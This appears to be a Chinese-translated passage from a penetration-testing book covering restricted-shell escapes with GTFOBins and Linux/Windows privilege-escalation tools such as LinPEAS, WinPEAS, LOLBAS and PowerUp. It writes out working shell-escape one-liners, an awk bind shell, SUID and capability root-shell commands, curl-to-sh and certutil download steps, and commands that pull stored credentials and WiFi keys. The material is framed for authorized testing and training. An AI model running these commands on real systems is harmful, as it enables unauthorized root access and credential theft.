Hashcat 将依次使用每个掩码（mask）运行暴力破解攻击，直到到达文件末尾。统计数据和掩码是破解困难密码哈希列表非常有效的方法。这只是对 PACK 工具的简要概述，请查看工具网站以获取关于这些工具更深入的解释。

## 结论

在这一相当长的章节中，我们涵盖了词表的创建以及使用 `Hashcat` 破解密码的多种方法。还有许多使用 `Hashcat` 工具的额外方法，我强烈建议读者花时间研究一下这个强大的工具。当你深入研究密码破解时，你将会发现许多模式。许多国家使用的一种密码“混淆”技术是使用外语语言通过外语字母表来拼写英语单词。例如，如果一个俄罗斯人想在密码中使用“spoon”（勺子）这个词，他们不会使用俄语中的“勺子”单词，而是直接使用他们的字母表拼出英文单词“spoon”。

你也会遇到很多走位密码（keywalk passwords）。需要记住的一点是，特别是在处理跨国密码时，键盘布局会随国家而改变。它并不总是看起来像熟悉的“qwerty”。再加上 `Hashcat` 显示某些字符的方式（UTF8 转 ANSI），可能会让情况变得有些困惑。

例如：

```
1234567890йцукенгшщзхъ
```

这是一个俄语键盘走位密码：

```
1234567890йцу켄гшщзхъ
```

基本上就是“1-0”，然后是键盘上的“q”到“}”。

最后，你可以使用 `Hashcat` 中的字符集对外语密码进行暴力破解，但我从未在这方面取得过太大成功。我发现使用词表或仅使用二进制字符更有效。但取决于你的目标，你可能会从中获得成功。请查看 `Hashcat` 文档以获取有关使用字符集破解的更多信息。

## 第七部分 - 权限提升

### 第 28 章

### 使用 GTFOBins 逃离命令限制环境

工具 GitHub：[`gtfobins.github.io/`](https://gtfobins.github.io/)

GTFOBins 是一个具有“双重用途”的 Linux 系统命令集合。作为多年来盛行的“就地利用”（Living off the Land）运动的一部分，`GTFOBins` 是可以用于逃离命令限制环境、权限提升、持久化等的终端命令。

命令限制环境或受限 shell（restricted shells）在某些安全设施和公共访问区域很常见。作为一名安全测试人员，你永远不知道何时能够获取命令限制系统的远程 shell 或获得物理访问权限，因此了解一些绕过技术是很有用的。虽然有更高级的方法来保护环境，但受限 shell 仍然在使用。像“Rbash”这样的 Linux shell 可以用于防止用户运行某些系统或导航命令。作为安全测试人员，如果你落入其中一个系统或拥有这些系统的物理访问权限，你将不得不“跳出”受限 shell。有一组可以执行此操作以及更多操作的命令被称为 `GTFOBins`。

有几种工具可以方便地设置受限 shell，其中一种是 `Rbash`。`Rbash` 或“受限 Bash”shell 在 Kali Linux 中默认可用。实际上，它只是使用 `-r` 或 `--restricted` 关执行的 `bash` shell。如果你从未设置过受限 bash 环境，可以在这里找到一个简单的入门教程¹。一旦设置并登录了 `Rbash` 用户，他们可以运行的命令将受到限制，包括更改目录。

如下：


安全测试人员的首要任务将是离开这个受限 shell 并进入正常的无限制 shell。实现此点的一种方法是使用 `GTFOBins`。这些是“双重用途”系统命令，或者是具有未记录或额外功能的普通终端命令，我们可以利用这些功能来帮助逃离受限 shell、下载或上传程序、创建远程 shell 等！

“就地利用”和 `GTFOBins` 的概念已经存在很长时间了。与其运行那些吵得要命的新型安全工具，很多时候你直接使用普通的系统命令要隐蔽得多。事实上，几个自动化安全工具脚本在运行时只是简单地调用一些系统命令。`GTFOBins` 及其用法有详尽的文档记录，所以我不会在上面花费大量时间。让我们来看几个快速的例子。

#### 逃逸

我最喜欢的逃逸方法之一是直接使用 `Vim`！我知道，无论你喜欢还是讨厌，`Vim` 确实具有一些可以在安全领域使用的有趣的“额外功能”。

```
在 rbash 终端，运行 vim， "vim"
在 Vim 中，输入，":set shell=/bin/sh"
最后输入，":shell"
```

一旦你输入了 shell 命令，你就会返回终端，但现在你将有一个“$”终端提示符。你现在可以输入任何想要的命令，包括更改目录。

如下：


就是这样了，通过使用 `Vim` 的一个不为人知的功能，我们能够快速轻松地逃离受限 shell。输入“exit”即可退出 shell。

逃离受限 shell 的另一种方法是使用 `SSH` 打开一个本地无限制 shell。

```
在受限 shell 中，输入 "ssh -o ProxyCommand=';sh 0<&2 1>&2' x"
```


就是这样，我们现在已经离开了受限 shell，可以运行我们想要的任何命令，包括导航命令。还有其他几个命令你可以使用。你甚至可以玩点花，组合使用几个系统命令，比如 `find` 和 `awk`。


#### 使用其他语言逃离受限 shell

系统命令并不是绕过限制环境的唯一方法。另一种选择是使用不同的编程语言产生 shell。

```
perl -e 'exec "/bin/sh";'
```


或者你可以使用 `Python`：

```python
python -c 'import os; os.system("/bin/sh")'
```


这些只是几个简单的例子。查看 GitHub 上的 `GTFOBins` 命令参考获取完整的命令列表和解释。

#### 使用 GTFOBins 运行其他二进制文件你实际上可以在 `Vim` 中运行任何文本终端命令，尽管 shell 最符合逻辑。如果你想玩玩，可以在非限制 shell 系统上使用 `Vim` 做一些有趣的事，比如使用 `Vim` 运行 `nmap`：

```
在非限制终端，输入 "vim -c ':!/bin/nmap 172.24.1.233'"
```


另一种方法实际上是先启动 `Vim`，然后在里面运行另一个工具命令，如下所示：


这会导致 `Vim` 执行 `nmap` 扫描并显示结果：


全部在 `VIM` 内部完成。

#### 使用 GTFOBins 创建远程 shell

最后，你可以使用 `GTFOBins` 创建远程 shell。我们稍后会深入讨论远程 shell，但让我们来看一个可以用于获取远程 shell 的系统命令。如果你非常喜欢打字，你也可以在限制环境中使用它。

在目标系统上输入：

```
LPORT=12345
awk -v LPORT=$LPORT 'BEGIN {
s = "/inet/tcp/" LPORT "/0/0";
while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
```


在攻击者系统上输入：

```
nc [target ip] 12345
```


我们现在有了通往远程系统的 shell。

## 资源与参考文献

> ➢ ¹ 如何使用受限 shell 限制用户对 Linux 系统的访问-[`www.techpublic.com/article/how-to-use-restricted-shell-to-limit-user-access-to-linux-system/`](https://www.techpublic.com/article/how-to-use-restricted-shell-to-limit-user-access-to-linux-system/)

> ➢ GTFOBins - [`gtfobins.github.io/`](https://gtfobins.github.io/)


> ➢ “受限 Linux Shell 逸技术” - [`fireshellsecurity.team/restricted-linux-shell-escaping-techniques/`](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)
> ➢ 权限提升备查表 (Vulnhub CTF) - [`github.com/Ignitetechnologies/Privilege-Escalation`](https://github.com/Ignitetechnologies/Privilege-Escalation)
> ➢ 基础 Linux 权限提升 - [`blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/`](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
> ➢ 离地落地二进制文件和脚本（以及库） - [`lolbas-project.github.io/`](https://lolbas-project.github.io/)

# 第 29 章：权限提升

渗透测试人员权限提升的主要目标之一并不一定是软件漏洞，而是软件配置错误。我曾提供多年现场服务器和网络支持。很多时候，我们会被叫去“清理”另一家公司安装的系统。电脑销售公司显然不知道如何设置 Windows 网络，却将高端企业级服务器卖给这些小型家庭作坊型企业。他们将其推销为“他们未来几年可能需要的所有功能和配置”，但问题是，其中大部分功能对于小型办公室来说是过剩的，而且很多都配置错误。

一些大型公司也并不好到哪去。我在大型公司中见过很多“打钩式安全”。在安装新服务器时，会遵循一套新的系统检查列表。某些设置被设定后，系统被认为是“安全的”。问题是，很少有公司在各个部门接收新服务器并添加其部门软件后，会回去双检这些服务器。部门管理员会添加新软件、更改安全设置，甚至将其关闭。有些地方仅依靠自动化安全补丁和反病毒更新来防御他们的系统，而从不检查补丁是否真的已安装。

与任何安全工具一样，在不修改的情况下运行它们会显著增加被反病毒软件检测或拦截的概率。最好的方法是先尝试手动权限提升，如果没有运气的话，再转向更具自动化的工具。这通常是这些自动化工具最初创建的方式。工具作者试图通过脚本化他们使用的工具和技术来让自己的生活更轻松（更自动化）。

## 权限提升的类型

有许多不同的权限提升类型。这包含了从云服务攻击（如权限配置错误、本地网络到云、域、本地、应用程序）到操作系统和内核漏洞利用的所有内容。云级利用超出了本书的范畴（也许在未来的书中吧？），但我们将查看其他几种类型的提升。不过，在云安全方面，存在许多服务配置错误的问题——很多时候你可以发现完全开放且未安全的云资源，例如 Amazon S3 桶。

几年前，通过在 Shodan 上进行服务器服务搜索时，我发现了大量开放的云控制面板界面——我通知了一个朋友的云安全公司，他们帮助纠正了这一局面。尽管你仍然可以使用搜索引擎寻找其他云问题，例如，“GreyHat Warfare”拥有一个专门搜索 AWS Buckets 等开放云资源的搜索引擎。


GrayHat Warfare - [`buckets.grayhatwarfare.com/`](https://buckets.grayhatwarfare.com/)

正如我所说，那更多是另一本书的话题。现在，让我们看看使用 Kali Linux 在服务器和工作站上进行权限提升的一些常用工具。其中几个是第三方工具，需要安装。

## 美好的旧时光

在“美好的旧时光”，你只需要用 Metasploit 弹出一个远程 shell，运行 `getsystem` 游戏就结束了。好吧，其实从未完全那么简单，但有时确实如此！从那以后情况发生了很大变化。委婉地说，在不修改代码的情况下，Windows 杀毒软件在检测和拦截 Metasploit 过去传统用法方面已经变得优秀得多。我仍然喜欢 Metasploit 并强烈推荐它，它是一个很棒的工具。它与自定义代码的利用 shell 配合依然非常出色。但现在有很多新的工具和技术可用，特别是在 C2 市场。

关于权限提升，那里已经有很多很好的素材了，它也被复制了多次，因此很难确定某些技术的原始创建者是谁。因此，这一章更像是一个信息阅读类的章节，而不是技术性的分步操作指南。许多备考 OSCP 考试的人使用的一种训练技术是使用 CTF 挑战练习权限提升，我强烈推荐这一点。我在本章末尾包含了许多很好的参考链接——这样你就可以真正深入研究这个主题，因为它非常深奥。

## 手动权限提升

手动权限提升使用内置的操作系统命令来获取信息。你可能处于完全盲目的状态，获取目标信息以及账户拥有的权限。下一步是利用这些信息尝试提升权限。

### 常用 Linux 命令：

可以使用几种系统命令收集有用信息。这包括：

> ➢ `whoami`
> ➢ `id`
> ➢ `hostname`
> ➢ `uname -a`


这些命令确定了用户是谁、其成员组成、主机名以及操作系统信息。`id` 命令告诉我们用户属于哪些安全组。`uname -a` 命令很重要，因为它提供了系统的内核版本。一些快速搜索可以直接告诉你是否存在可以执行的内核漏洞。

接下来，你想了解哪些服务正在运行以及网络信息。

> ➢ `ps aux`
> ➢ `ip a`
> ➢ `ss -anp`
> ➢ `route`


这将为 Linux 机器提供一个良好的开始。然后你可以检查哪些服务运行在特权级别，你可能攻破。从这里你可以检查用户和文件设置、防火墙和计划任务。这可以显示哪些程序可以通过防火墙，哪些自动化任务可以被修改以赋予 root 权限，或者哪些安全配置错误可以被利用。自动化工具会发现这些问题。我们稍后会讨论。

### Windows 命令：

Windows 目标过程是相同的，某些命令甚至是相同的。再次，我们想知道我们是谁，拥有哪些安全权限，以及系统和网络信息。

> ➢ `whoami`
> ➢ `whoami /priv`
> ➢ `whoami /groups`
> ➢ `net user [username]`
> ➢ `net user`
> ➢ `hostname`
> ➢ `systeminfo`


然后我们可以转向运行的服务和网络信息：

> ➢ `tasklist`
> ➢ `ipconfig /all`
> ➢ `route print`
> ➢ `netstat -ano`


# 使用 GTFOBins 进行 Linux 权限提升

工具 GitHub: [`gtfobins.github.io/`](https://gtfobins.github.io/)


我们在上一节中引入了 GTFOBins，其中有许多命令可以用于权限提升。很多时候，你可以从配置错误的文件或权限过大的文件中提升权限。在进入安全领域之前，我曾从事服务器支持工作，即便如此，公司赋予用户和服务器的权限之高仍让我感到震惊。在 Linux 中，`SUID`、`Sudo` 和 `Capabilites` 权限可以被利用和滥用来提升权限。

一种常用的技术是，如果 `copy` 命令具有 `sudo` 权限，你可以用自己创建的文件覆盖系统密码文件，然后用该用户登录。在某些安全测试中，这样做唯一的问题是，客户可能对你覆盖系统文件表示不满。你必须始终确保留在约定的范围范围内。此外，在删除或更改重要文件之前，务必进行备份。你必须能够完全撤销测试期间期间的任何更改。

## SUID & SUDO 权限

你可以使用 GTFOBins 快速搜索可以提升权限的 SUID 和 SUDO 文件。`SUID`（执行时设置所有者用户 ID）是一种特殊权限，允许文件以所有者的身份运行，而不是以执行该用户的身份运行。它可能允许普通用户以超级用户或 root 权限运行文件。此外，某些程序可以设置为以 `SUDO` 运行，这可能在程序完成后允许提权状态。

在 Linux 中，你可以很容易地检查哪些文件设置了 SUID 权限。

```bash
find / -perm -u=s -type f 2>/dev/null
```

如果返回的文件之一可以用于生成 shell（检查 GTFOBins），那么你就大功告成了！

在我们的 Metasploitable2 Linux 虚拟机上运行此命令会返回以下结果：


我们有几个可以尝试的命令，让我们尝试 `nmap` 命令。

> ➢ 在 Metasploitable2 终端中，输入 `nmap --interactive`

> ➢ 然后输入 `!sh`


不需要进行任何高阶忍者黑客，我们现在就是 root 了！显然，Metasploitable2 是旧的且故意留有漏洞，你在现实生活中可能不会遇到有这么多权限提升选项的系统，但这是一个很好的练习方法。CTF 总是有助于磨练技能。

## Capabilities（能力）

“Capabilities”是另一种攻击途径。Capabilities 是附加到文件上的特殊安全权限。它们有很多，但其中几种允许目标文件以不同的用户或组身份运行。如果用户设置为“root”用户，则文件将以 root 身份运行。如果文件上配置了能力 `cap_setuid+ep`，它就具有以不同用户运行的能力。如果用户设置为 `uid(0)`，文件将以 root 身份运行。我们可以使用 GDB 来演示这一点。

在我们的 Kali Linux 系统上，打开终端并执行命令。这些命令来自 GTFOBins，位于 `GDB` 命令下的“Capabilities”部分：

```bash
cp $(which gdb) .
sudo setcap cap_setuid+ep gdb
```

这创建了 `gdb` 可执行文件的副本并将其保存在我们的 Kali 家目录下。然后它设置能力权限，允许不同的用户执行该文件。

你可以通过执行以下命令检查哪些文件设置了这些特殊权限。

```bash
getcap -r / 2>/dev/null
```


现在我们知道 GDB 文件容易受到 SetUID 攻击，我们可以以不同用户的身份执行它。在这种情况下，我们将用户 ID 设置为“0”或即 Root 用户。

```bash
./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
```


我们现在有了一个 Root 级的 shell！

## 权限提升 Awesome 脚本套件 (PEASS)

PEASS 是一个权限提升脚本的集合。目前有两个：Linux 权限提升 Awesome Script (LinPEAS) 和 Windows 权限提升 Awesome Script (WinPEAS)。一个 Mac 版本也正在开发中。PEAS 脚本简化了权限提升问题的检查。我们将快速查看两者。

### LinPEAS - Linux 权限提升 Awesome Script


工具作者书籍：[`book.hacktricks.xyz/linux-unix/privilege-escalation`](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

> 工具 GitHub: [`github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

LinPEAS 是一个非常有用的工具，它用于搜索常见的权限提升问题和可以用于利用的重要数据。它会自动检查有软件、备份、凭据、邮件、配置文件、日志、密钥、系统和网络信息等！LinPEAS 网站涵盖了多种将 LinPEAS 放到目标系统并运行它的方法，包括杀毒软件绕过（AV Bypass）。

最快的方法之一直接下载并运行：

```bash
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

或者你可以将其下载并托管在你的攻击系统上，然后在目标系统上下载。

```bash
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
sudo python -m SimpleHTTPServer 80
curl [kali_IP_address]/linpeas.sh | sh
```

如果你选择仅下载并保存文件到本地然后运行，你确实需要先赋予它执行权限。当脚本运行时，结果会进行颜色编码。如果 LinPEAS 发现任何看似重要的信息，它将标记为红色或红/黄色。


系统会生成一份包含所有工具发现的完整报告。阅读整个报告是有好处的，因为它充满了有用信息。

使用 `-a` 切换运行 LinPEAS 可以使其运行所有可用的测试，包括使用前两千密码进行暴力破解。

```bash
./linpeas.sh -a
```


看起来你可以修改尝试的密码数量，甚至修改密码本身，在 `LinPEAS.sh` 代码中：


PEAS 工具的另一个很棒的地方是，报告中的许多主题都有指向工具作者创建的“Hack tricks”书籍的链接，你可以阅读更多关于检测出的问题。


访问 [`book.hacktricks.xyz/`](https://book.hacktricks.xyz/) 获取更多。

### Linuxprivchecker


工具 GitHub: [`github.com/sleventyeleven/linuxprivchecker`](https://github.com/sleventyeleven/linuxprivchecker)

LinuxPrivChecker 是一个本地执行的 Linux 脚本，用于检查常见的权限提升漏洞。

```bash
git clone https://github.com/sleventyeleven/linuxprivchecker
./linuxprivchecker.py > report.txt
```

命令输出非常长并超出了屏幕，将其导出到文件很有帮助。输出包含了大量有用信息，用户、系统信息、计划任务、配置文件等。很棒的是，它还根据内核版本包含了可能的系统漏洞。

如下所示：


权限提升另一个不那么显眼的来源是 shell 命令历史。你可以看到类似什么账户通过 `SSH` 连接到其他系统等，偶尔还能发现更好的东西。在这个实验室系统上，我足够幸运地恢复了一个 Windows 域哈希值：


好吧，并不现实，但谁知道呢，也许你的目标系统确实在破解公司域密码。如果是这样，他们面临的问题可能比外部黑客更多。正如人们所说，内部威胁是最高的攻击向量之一。

## Windows 权限提升


与 Linux 类似，Windows 中也有许多命令可以让我们用来检查潜在的权限提升途径。该过程通常从检查当前或受损账户的权限开始。然后，转向尝试寻找任何存储的密码、有用的或可被利用的服务，或者文件、配置文件和日志文件。出于隐蔽性考虑，尝试手动使用 Windows 内置命令来搜索这些信息总是个好做法。

线上有大量的权限提升列表和 OSCP PE 提要表，因此我将只介绍少数命令和工具。更多信息请参阅参考章节。

### 用于用于信息收集和“快速击杀”密码的命令：

> ➢ 存储凭据 - `cmdkey /list`

> ➢ 正在运行的 Windows 服务 - `net start`

> ➢ 列出用户 - `net user`

> ➢ 列出本地组 - `net localgroup`

> ➢ 自动登录密码 -

> `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`

> ➢ 存储的 Putty 密码 - `reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"`

### 明文显示的 WiFi 密码：

> ➢ 首先找到 SSID，`netsh wlan show profile`

> ➢ 然后执行，`netsh wlan show profile <SSID> key=clear`


现在，让我们来看一些 Windows 权限提升的工具和自动化脚本。

## LOLBAS


工具 GitHub：[`github.com/LOLBAS-Project/LOLBAS`](https://github.com/LOLBAS-Project/LOLBAS)

带有良好界面的 LOLBAS：[`lolbas-project.github.io/`](https://lolbas-project.github.io/)

LOLBAS – 利用现场二进制文件和脚本（Living Off the Land Binaries and Scripts）。我们已经涵盖了 Linux 的 GTFOBins，现在来看看 Windows 版本的“离地利用”。LOLBAS 项目的 GitHub.io 页面包含一个可搜索的数据库，其中有很多双用途 Windows 系统和附加命令，它看起来和用起来与 GTFOBins 非常相似。


不同之处在于，顶部没有用于对命令进行分类的“类别”菜单按钮。不过你只需要在搜索栏中输入你想要的功能并在前面加上 `/` 即可。

#### /AWL 命令

假设你想搜索可以帮助绕过应用程序白名单（AWL）的工具。AWL 是一种可以开启的安全功能，仅允许“白名单”或批准的程序运行。一旦你在搜索栏中输入 `/AWL`，所有具有 AWL 绕过能力的命令都会列出来。


LOLBAS 命令非常适合尝试绕过系统文件执行安全。许多命令允许你从普通的系统命令运行 `.exe` 或 `.dll` 文件。你还可以将文件保存到备用数据流（Alternate Data Streams）。这是一种用于“在文件中隐藏文件”以试图检测的老技术。LOLBAS 命令还可以用于上传和下载文件，并执行 AWL 和 UAC 绕过。

#### /Download 命令

下载命令允许你将文件下载到目标。同样，这些只是普通的 Windows 系统命令，但通过使用特殊的开关和选项，可以将远程文件下载到目标机器。


`Bitsadmin` 经常被攻击者和黑客脚本用于尝试将远程文件下载到系统。它是如此流行，以至于我多次看到 Shodan (Shodan.io) 在为它们的截图搜索服务获取截图时捕捉到了实时黑客尝试和机器人攻击。

这是一个我认为是机器人尝试自动下载远程文件的示例截图：


注意，它尝试使用 `Bitsadmin` 下载文件，然后尝试在 `PowerShell` 中运行一个程序——当然是失败了，因为这是一个 Linux 机器！

关于 `Bitsadmin` 命令的更多信息可以在此处找到：[`lolbas-project.github.io/lolbas/Binaries/Bitsadmin/`](https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/)

#### /UAC Bypass 命令

只有两个 LOLBAS 命令可用于 UAC 绕过 - `Eventvwr` 和 `Wsreset`：


这两个命令都可以用于尝试绕过 UAC。嗯，它们并没有直接执行 UAC 绕过，你需要对两者都编辑特定的注册表项并输入命令来运行。这两个命令都会导致位于指定注册表位置的文件在重启时运行。


来源：https://lolbas-project.github.io/lolbas/Binaries/Eventvwr/


来源：https://lolbas-project.github.io/lolbas/Binaries/Wsreset/

一如既往，编辑注册表时要非常小心，训练时务必先备份。还有其他执行 UAC 绕过的方法，我们将在单独的章节中讨论。

### 步骤记录器 (Steps Recorder)

LOLBAS 命令在 GitHub 页面上有详细的文档。很棒的一点是，LOLBAS 命令还提供了 MITRE ATT@CK 数据库的链接。我们在书开头讨论过 MITRE ATT@CK。这是查看哪些黑客组织在攻击中使用这些命令，以及它们如何契合攻击者的战术和技术的绝佳方法。

在继续之前，让我们来看看一个 LOLBAS 命令之一，“步骤记录器”。步骤记录器（SR），以前称为问题步骤记录器（PSR），是一个你可能从未听说过的很棒的支持程序。它可以帮助支持人员查看用户正在做什么。如果用户遇到计算机问题他们无法清楚表达或技术支持人员无法可视化，支持人员只需要让用户运行步骤记录器。

当 `SR` 运行时，它会自动开始捕捉用户点击的所有屏幕截图。它还会记录用户操作的对话日志。完成后，数据将以 HTML 格式保存并压缩，用户只需要将文件电子邮件给技术支持部门。

> ➢ 打开 Windows 搜索栏并输入 `psr`，然后打开步骤记录器


> ➢ 点击“开始录制”

你也可以从命令行运行 PSR。

> ➢ `psr.exe /start /gui 0 /output C:\Users\[Username]\Desktop\cool.zip`


浏览或执行一些快速任务，完成后输入：

> ➢ `psr.exe /stop`

你就有了用户的活动压缩包。这可以通过远程 Shell 用于安全测试。你可以对程序进行编码并在 `PowerShell` 中通过类似 Metasploit 的运行，完成后恢复文件。步骤记录器不会记录输入的任何文本，但可以捕捉一些有趣且的截图。


我在我的博客上深入讨论了这项技术：[`cyberarms.wordpress.com/2016/02/13/using-problem-steps-recorder-remotely-with-metasploit/`](https://cyberarms.wordpress.com/2016/02/13/using-problem-steps-recorder-remotely-with-metasploit/)

这里是其他有趣的 LOLBAS 命令：

> ➢ 组策略存储的密码 - `findstr /S /I cpassword \\sysvol\policies\*.xml`

> ➢ 使用 `Print.exe` 复制文件：

> `print c:\source\EvilExploit.exe /D:C:\destination\InnocentFile.exe`

花时间查看 LOLBAS 网页，你会对自己如何使用某些标准的 Windows 命令感到惊讶！


`WinPEAS` 是 Windows 版本的权限提升工具包（Privilege Escalation Awesome Suite）。它的功能与 Linux 版本几乎相同——它寻找远程用户、有趣的文件、存储的凭据、CVE 漏洞等。使用 `WinPEAS` 有三种方式：一个批处理（无颜色代码）、一个你可以自己编译的 C# 版本，以及一个预编译的混淆版本。剧透一下，在写作此时，Windows 安全机制阻止了预编译版本。

为了让 `.exe` 版本显示颜色，你可能需要运行以下 `regedit`：

```
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

当执行该工具时，你应该能看到彩色的输出，就像在 Linux 脚本版本中一样。


花几分钟查看 PEAS 脚本，你将看到脚本中使用的单个命令和工具。例如，`WinPEAS` 脚本调用了 Rasta-mouse 开发的 `Watson` 工具来搜索漏洞。`Watson` 本身就是一个非常有用的工具，它可以检查 Windows 是否缺少更新，并为权限提升建议利用程序。

如下所示：


`Watson` 可以从 Rasta-mouse 的 GitHub 站点获取 ([`github.com/rasta-mouse/Watson`](https://github.com/rasta-mouse/Watson))。尽管你需要在 Visual Studio 中构建项目后才能使用。一旦构建完成，你只需要运行 `Watson.exe` 文件，它就会自动扫描并报告任何问题。这只是对 `WinPEAS` 的快速介绍。它是一个非常有用的工具。请查看 PEAS 作者的 HackTricks 书籍网页上的权限提升章节和清单以获取更多信息 ([`book.hacktricks.xyz/`](https://book.hacktricks.xyz/))。

## Powerless

工具 GitHub: [`github.com/M4ximuss/Powerless`](https://github.com/M4ximuss/Powerless)

`Powerless` 是一个 Windows 权限提升批处理脚本，在不需要 PowerShell 的情况下运行。如果你计划参加 OSCP 考试，工具作者实际上是针对 OSCP 实验室设计的。有许多方法可以将批处理文件传输到目标机器，但在本示例中，我将批处理文件托管在 Kali Linux 上，并从 Server 2019 虚拟机下载该文件。

- 下载 `.bat` 文件到 Kali Linux
- 启动一个简单的 `HTTPSHTTPServer` 实例（Python3 中的 `http.server`）


现在我们只需要将文件复制到目标 Server 2019 系统。工具作者推荐使用 `certutil` 命令执行下载，它的效果非常好。

```
certutil.exe -urlcache -split -f "http://172.24.1.239:8000/Powerless.bat" Powerless.bat
```


现在运行该文件。`Powerless` 将先执行几个后侦察类型的命令，然后随着数据的恢复进行显示。我在使用 `BadBlood` 创建的 Windows 2019 服务器上运行了它，所以得到了完整的用户列表：


`Powerless` 返回系统信息、网络信息、有趣的文件、日志、配置文件等。

## PowerSploit PowerUp 脚本

工具 GitHub（目前不再支持）：[`github.com/PowerShellMafia/PowerSploit`](https://github.com/PowerShellMafia/PowerSploit)


`PowerUp` 是 `PowerSploit` 的一部分，它是 Kali Linux 中的 PowerShell 后渗透框架。该工具专注于 Windows 权限提升。它是通过 PowerShell 运行的常用权限提升命令集合。这是一个旧工具，不再受支持，且杀毒软件很可能会标记并删除它，但在旧系统上可能仍然很有用。

安装与使用方法可以在工具网站上找到。但基本上，只需将你的 Kali 系统中的整个 `Privesc` 文件夹复制到目标的 PowerShell 模块目录中。

通常路径为 `C:[user]\Documents\WindowsPowerShell\Modules`

- 要使用该模块，输入 `Import-Module Privesc`
- 要查看可用命令，输入 `Get-Command -Module Privesc`


- 你可以在任何命令上使用 `Get-Help` 获取更多信息。

你现在可以运行任何命令了。要列出你可能在 DLL 劫持攻击中使用的文件，输入 `Find-DllHijack`。

如下所示：


DLL 劫持基本上是利用 Windows 使用 DLL 文件的方式。如果程序员没有专门指定程序 `.dll` 文件的位置，Windows 有一套预定义的搜索模式来查找它们。可能发生的情况是系统中存在多个同名的 DLL。DLL 劫持是将恶意 DLL 放置在搜索顺序的高位，这样当程序运行（通常在启动时）时，恶意 DLL 文件也会被启动。创建恶意 DLL 文件有很多方法，我们在 Metasploit 章节中介绍过如何创建 shell 文件。花几分钟查看 `PowerUp` 中提供的其他命令。

## 其他选项

还有许多其他可以在 Windows 上用于权限提升的脚本。

例如：

- `JAWS` - Just Another Windows Enumeration ([`github.com/411Hall/JAWS`](https://github.com/411Hall/JAWS))
- `DLLSpy` - [`github.com/cyberark/DLLSpy`](https://github.com/cyberark/DLLSpy)
- `RACE` - [`github.com/samratok/RACE`](https://github.com/samratok/RACE)

`JAWS` 和 `DLLSpy` 使用得非常频繁，`RACE` 也非常有趣。由 Nikhil "SamratAshok" 编写，他是流行的权限提升 `RACE` 框架的创建者。

## PSCred - 创建与解码

在离开本章节之前，我想快速讨论一种可能的“快杀”（quick kill）抓取。`PSCredentials` 是将用户名和密码转换为加密形式的一种快速粗暴的方法，可以用来替代让用户不断输入其凭据。如果这些凭据被存储在服务器或工作站上，你可能以明文形式恢复它们。

首先，我们来创建一个 PSCredentials 文件：

```powershell
$credential = Get-Credential
$credential | Export-CliXml -Path 'C:\Users\administrator\cred.xml'
```


一旦凭据并导出到文件中，你就可以查看加密后的密码：


### 恢复 PSCredentials

你可以使用 PowerShell 中的 `GetNetworkCredential()` 命令轻松恢复明文密码。

```powershell
$credential.GetNetworkCredential().password
```


我个人从未遇到过这种情况，但它始终是进行快速攻击时值得检查的内容。

## 资源与参考

互联网上有许多关于权限提升的优质资源。以下只是其中一部分，有些被作为本章节的参考。许多文章详尽涵盖了权限提升，我强烈建议读者查看每一篇。

- Gtm1k  Linux 权限提升：[`blog.g0tm1k.com/2011/08/basic-linux-privilege-escalation/`](https://blog.g0tm1k.com/2011/08/basic-linux-privilege-escalation/)
- “Privilege escalation explained: Why these flaws are so valuable to hackers”:[`www.csoonline.com/article/3564726/privilege-escalation-explained-why-these-flaws-are-so-valuable-to-hackers.html`](https://www.csoonline.com/article/3564726/privilege-escalation-explained-why-these-flaws-are-so-valuable-to-hackers.html)


# 内核权限提升

- ➢  内核权限提升：Kubernetes 容器隔离如何影响权限提升攻击 - [`snyk.io/blog/kernel-privilege-escalation/`](https://snyk.io/blog/kernel-privilege-escalation/)
- ➢  “Payload all the Things: Linux - 权限提升” [`github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- ➢  检查清单 - Linux 权限提升 - [`book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist`](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)
- ➢  Linux 权限提升 - [`book.hacktricks.xyz/linux-unix/privilege-escalation`](https://book.hacktricks.xyz/linux-unix/privilege-escalation)
- ➢  Linux 权限提升：快速且简单 - [`johnjhacking.com/blog/linux-privilege-escalation-quick-and-dirty/`](https://johnjhacking.com/blog/linux-privilege-escalation-quick-and-dirty/)
- ➢  Frizb Windows 权限提升 - [`github.com/frizb/Windows-Privilege-Escalation`](https://github.com/frizb/Windows-Privilege-Escalation)
- ➢  PuckieStyle Windows 权限提升 - [`www.puckiestyle.nl/windows-privilege-escalation/`](https://www.puckiestyle.nl/windows-privilege-escalation/)
- ➢  Payloads All The Things: Windows – 权限提升 – [`github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- ➢  用于 OSCP 的 Windows 权限提升速查表 - [`www.hackingdream.net/2020/03/windows-privilege-escalation-cheatsheet-for-oscp.html`](https://www.hackingdream.net/2020/03/windows-privilege-escalation-cheatsheet-for-oscp.html)
